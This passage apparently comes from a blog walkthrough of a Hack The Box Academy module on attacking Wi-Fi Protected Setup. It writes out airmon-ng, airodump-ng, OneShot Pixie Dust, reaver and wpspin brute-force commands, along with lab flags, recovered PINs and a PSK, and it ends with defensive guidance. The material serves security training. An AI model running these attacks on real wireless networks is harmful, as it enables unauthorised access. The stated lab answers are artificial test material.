
*_Figure 13.3 — Lab execution and output verification (Page 13)_*


### Now, we will use the command

> **Lab Question (Page 14)**: Perform a vendor lookup for the BSSID F8:CE:72:3A:D2:A1. What is the vendor's name?
>
> **Flag / Answer**: `Wistron Corporation`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will take the BSSID, take the first half of which, and replace the
colons with hyphens, and we get: 'F8-CE-72'.

Now, we will use the command:
```bash
grep -i "F8-CE-72" /var/lib/ieee-data/oui.txt
```
to perform vendor lookup:


Using PIN Generation Tools:
Question: What is the WPS PIN for the WIFI Network named HackTheWifi?
Answer: 93007801
Method: back to the network monitoring results:

We can see the BSSID of 'HackTheWifi' is '60:38:E0:12:4F:A2'.
Now, for the PIN generation tool, we will use the wps default wps PIN
generator tool 'Default-wps-pin' – using the command:
python2 /opt/Default-wps-pin/default-wps-pin.py
60:38:E0:12:4F:A2


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


### The Pixie Dust Attack

> **Lab Question (Page 15)**: Scan for the available WIFI Networks. What is the name of the available WIFI network?
>
> **Flag / Answer**: `HackTheWifi`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will establish monitoring in the original 'airmon-ng' method:
```bash
sudo airmon-ng start wlan0
```


And search for Wi-fi networks with WPS available using the command:
```bash
sudo airodump-ng --wps --ignore-negative-one wlan0mon
```


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### 'OneShot'

> **Lab Question (Page 16)**: Perform the Pixie Dust attack on the WiFi network. What is the WPS PIN for this network?
>
> **Flag / Answer**: `32452370`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we take the obtained 'HackTheWifi' BSSID – '12:7D:76:D9:E6:61',
And run on it the following command, using the Pixie Dust attack tool
'OneShot':
```bash
sudo python3 /opt/OneShot/oneshot.py -b 12:7D:76:D9:E6:61 -i
```
wlan0mon -K


*
*


*note – we can also use reaver using the command:
```bash
sudo reaver -K 1 -vvv -b 12:7D:76:D9:E6:61 -c 1 -i mon0
```
but that requires setting the monitor using the interface addition method and
not the 'airmon-ng' method.
This method will not be shown here.*


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### Push Button Configuration

> **Lab Question (Page 17)**: Connect to the Wi-Fi network using the PBC method as outlined in the section. Once connected, submit the flag value present at http://192.168.1.1/
>
> **Flag / Answer**: `HTB{CONNECT_WITH_PBC}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets set the monitoring:
```bash
sudo airmon-ng start wlan0;
```

We will proceed to run oneshot to get the PBC:
```bash
sudo python3 /opt/OneShot/oneshot.py -i wlan0mon --pbc
```


We get the wifi 'HackTheWireless' with the PSK (pre shared key) –
'42b5215eb129abec043d7f32596f4f90'


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


### Now, we will stop the monitoring using the commands

Now, we will stop the monitoring using the commands:
```bash
sudo iw wlan0mon del;
sudo airmon-ng stop wlan0mon;
```
enter 'y' on prompt:


Now that the monitoring is off – we proceed to connect to 'HackTheWireless'
wifi:


And enter the PSK as the password:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


### and read the flag from it

After some moments we get the message 'Connection Established':


Now we can proceed to download the index.html content from 182.168.1.1
and read the flag from it:
```bash
wget http://192.168.1.1/
cat index.html
```


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### Capstone: Skills Assessment

> **Lab Question (Page 20)**: What is the WPS PIN for the WiFi network named VirtualCorp?
>
> **Flag / Answer**: `98990987`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the offline bruteforcing with OneShot.
First – we will set the monitoring mode online:
```bash
sudo airmon-ng start wlan0;
```

and we scan for 'VirtualCorp' BSSID:
```bash
sudo airodump-ng --wps --ignore-negative-one wlan0mon
```


The BSSID is 'FA:20:1A:BF:D6:72'.


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### Now, we start the bruteforce with the OneShot

> **Lab Question (Page 21)**: What is the WPS PIN for the WiFi network named HackTheBox-Corp?
>
> **Flag / Answer**: `31080279`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we use the bruteforce method used in 'Using Multiple Pre-defined
PINs' section.
First, we set the monitor (preferrable after reseting the machine):
```bash
sudo iw dev wlan0 interface add mon0 type monitor;
sudo ifconfig mon0 up;
```

and obtain 'HackTheBox-Corp' ESSID:
```bash
sudo airodump-ng mon0 --wps -c 1
```


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


### section – we generate the pins list pins.txt

The BSSID is '72:40:6E:74:2F:3B'.

Now, we follow the same procedure we did in 'Using Multiple Pre-defined PINs'
section – we generate the pins list pins.txt:
wpspin -A 72:40:6E:74:2F:3B | grep -Eo '\b[0-9]{8}\b' | tr
'\n' ' ' > pins.txt

and ready the script pins.sh:

*the script itself can be found in the 'Using Multiple Pre-defined PINs' section
itself, it will not be repeated here. *


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


### And run

And run:
./pins.sh


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1110, T1040` |
| **Common Weakness Enumerations** | `CWE-330, CWE-307` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1110`](https://attack.mitre.org/techniques/T1110/) | **Brute Force** | `Credential Access` | Brute-forcing 8-digit WPS PIN in halves (10,000 + 1,000 combinations) |
| [`T1040`](https://attack.mitre.org/techniques/T1040/) | **Network Sniffing** | `Credential Access` | Capturing EAP-WSC authentication frames |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-330`: Use of Insufficiently Random Values](https://cwe.mitre.org/data/definitions/330.html)
- [`CWE-307`: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Permanently disable Wi-Fi Protected Setup (WPS) on all wireless access points and routers.
- Deploy Wireless Intrusion Prevention Systems (WIPS) that detect anomalous EAP-WSC exchanges and alert on PIN brute force attempts.
- Migrate wireless infrastructure to WPA3-Enterprise using 802.1X EAP-TLS authentication.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Attacking Wi-Fi Protected Setup (WPS)](https://academy.hackthebox.com/module/131) — *Official Hack The Box curriculum track*
- [Stefan Viehböck: Brute Forcing Wi-Fi Protected Setup](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf) — *Original research paper detailing the WPS PIN vulnerability*
- [Reaver-wps-fork GitHub Repository](https://github.com/t6x/reaver-wps-fork-t6x) — *Community tool for WPS security auditing*
- [Wi-Fi Alliance WPA3 Specification](https://www.wi-fi.org/discover-wi-fi/security) — *Modern Wi-Fi security standards*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-36-stack-based-buffer-overflows-on-windows-x86/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 36: Stack-Based Buffer Overflows on Windows x86</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 37 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-38-web-fuzzing/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 38: Web Fuzzing Methodologies & Wfuzz</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
